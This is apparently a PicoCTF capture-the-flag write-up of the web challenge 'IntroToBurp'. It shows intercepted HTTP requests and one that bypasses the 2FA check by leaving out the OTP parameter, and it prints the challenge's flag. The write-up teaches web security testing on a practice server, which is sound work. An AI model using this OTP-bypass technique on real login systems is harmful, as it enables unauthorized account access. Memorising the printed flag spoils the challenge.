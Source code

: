 ```yaml
---
title: "IntroToBurp"
description: "Try here to find the flag\n\nHint: Try using burpsuite to intercept request to capture the flag.\nHint: Try mangling the request, maybe their server-side code doesn't handle malformed requests very well."
pubDate: 2025-03-13
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
image: "./images/picoctf/introtoburp/icon.png"
---
```


We are supplied a web application that has a registration form:
![form.png](images/picoctf/introtoburp/form.png)

As the challenge says to use Burp Suite, so I set up my proxy with PwnFox and capture the website traffic.

I then fill in the form and send the contents:
```
POST / HTTP/1.1
Host: titan.picoctf.net:56775
...
Cookie: session=eyJjc3JmX3Rva2VuIjoiNGI5M2RlZmQyYTM1NjdmOWQzMjRhM2YxMDY2ZTJiNGRlNWQ2MTJiNiJ9.Z9Jfzw.fPiTJRsE5bmU_QFhnNFs-Z6cklE
...

csrf_token=IjRiOTNkZWZkMmEzNTY3ZjlkMzI0YTNmMTA2NmUyYjRkZTVkNjEyYjYi.Z9Jfzw.r4YYR6jHDamnbwk9w576NDvb0qw&full_name=a&username=b&phone_number=c&city=d&password=3&submit=Register
```

We send the POST request, then are redirected to `/dashboard`:
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
```

The `/dashboard` endpoint asks for a 2FA code, that we do not have.
![2fa.png](images/picoctf/introtoburp/2fa.png)

Filling it in any way with '123456' responds with:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Invalid OTP
```

Boooooooo.

Looking at the POST request sent to `/dashboard`, this is what is sent:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...

opt=123456
```

What if we don't send an OTP? The application might not check if the OTP exists and default functionality could be to authenticate.

Let's send the following request:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...
```

The application responds:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Welcome, b you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```

And we get the flag!
Flag: `picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}`